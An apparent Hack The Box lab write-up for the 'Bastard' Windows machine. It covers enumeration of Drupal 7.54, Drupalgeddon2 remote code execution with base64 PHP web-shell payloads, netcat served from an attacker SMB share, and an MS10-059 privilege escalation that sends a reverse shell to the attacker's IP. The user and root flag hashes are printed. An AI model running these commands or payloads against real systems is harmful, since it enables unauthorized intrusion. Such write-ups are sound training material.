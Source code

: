 # Bastard
>Author : Xyan1d3
>Date : 28th June 2021
>IP : 10.10.10.9
>OS : Windows
>Difficulty : Medium
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Mon Jun 28 18:41:26 2021 as: nmap -sC -sV -oN nmap/bastard -v 10.10.10.9
Nmap scan report for bastard.htb (10.10.10.9)
Host is up (0.080s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that we have port `80/tcp` open which `nmap` says that it runs `drupal 7`.
At, This time the latest drupal version is `9.2.0`.
![[Pasted image 20210628185230.png]]

## Web Enumeration
We could run `drupwn` which is a drupal enumeration tool.
On running drupal the thing which actually sticks out is the drupal version which is `7.54`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/bastard]
└──╼ # drupwn --target http://10.10.10.9 --mode enum

        ____
       / __ \_______  ______ _      ______
      / / / / ___/ / / / __ \ | /| / / __ \
     / /_/ / /  / /_/ / /_/ / |/ |/ / / / /
    /_____/_/   \__,_/ .___/|__/|__/_/ /_/
                     /_/
    
[-] Version not specified, trying to identify it

[+] Version detected: 7.54


============ Nodes ============

http://10.10.10.9/node/1

*** SNIP ***
```

We could look for any potential exploits of this `drupal` version.

## Web Enumeration
On googling we find out that it is vulnerable to `drupalgeddon2` exploit which results in a `URCE`.
Exploit Link : https://github.com/dreadlocked/Drupalgeddon2/blob/master/drupalgeddon2.rb

This exploit contains some basic checks of trying to get a reverse shell. But, The commands are for linux but, We are up against a Windows Target.
The exploit also has a beautiful feature that if all the ways of command execution fails it will drop down to a command based shell.

So, We run the exploit with `ruby drupalgeddon2.rb http://10.10.10.9`.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/bastard/Drupalgeddon2]
└──╼ # ruby drupalgeddon2.rb http://10.10.10.9
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54    
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo WJUPVCOL
[+] Result : WJUPVCOL
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands 
drupalgeddon2>> whoami    <---- The Point of direct command execution
nt authority\iusr
```

# Initial FootHold
We create a put the `nc64.exe` inside a `www` directory and host it via the `smbserver.py`. So, That we could directly execute the `netcat` binary from the smbshare without touching the disk.

![[Pasted image 20210628221459.png]]

## Getting user.txt
We could now get the `user.txt` from the `C:\Users\dimitris\Desktop\user.txt`.
```python
C:\Users\dimitris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\Users\dimitris\Desktop

19/03/2017  09:04     <DIR>          .
19/03/2017  09:04     <DIR>          ..
19/03/2017  09:06                 32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.806.962.176 bytes free

C:\Users\dimitris\Desktop>type user.txt
type user.txt
ba22fde1932d06eb76a163d312f921a2
```

# Root Escalation
We have to look at the OS information by doing a `systeminfo` command.
```python
C:\Users\dimitris\Desktop>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 
System Boot Time:          28/6/2021, 4:08:02 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
```

The OS Running here is `Microsoft Windows Server 2008 R2 Datacenter` 64-Bit.

Here, We will be exploiting the `MS10-059.exe` or `chimmichuri` exploit.
Exploit Link : https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

The exploit takes `ATTACKER-IP` & `ATTACKER-PORT` as command line arguments and sends the elevated shell back to us.

Exploit command : `\\10.10.14.11\magisk\ms10-059.exe 10.10.14.11 8888`
It sends a elevated reverse shell on `8888/tcp` on listening with netcat.
![[Pasted image 20210628231409.png]]

## Root Flag
We could now, grab the `root.txt` from the `C:\Users\Administrator\Desktop`.
```python
C:\inetpub\drupal-7.54>cd C:\Users\Administrator\Desktop\
cd C:\Users\Administrator\Desktop\

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\Users\Administrator\Desktop

19/03/2017  08:33     <DIR>          .
19/03/2017  08:33     <DIR>          ..
19/03/2017  08:34                 32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.806.953.984 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c
```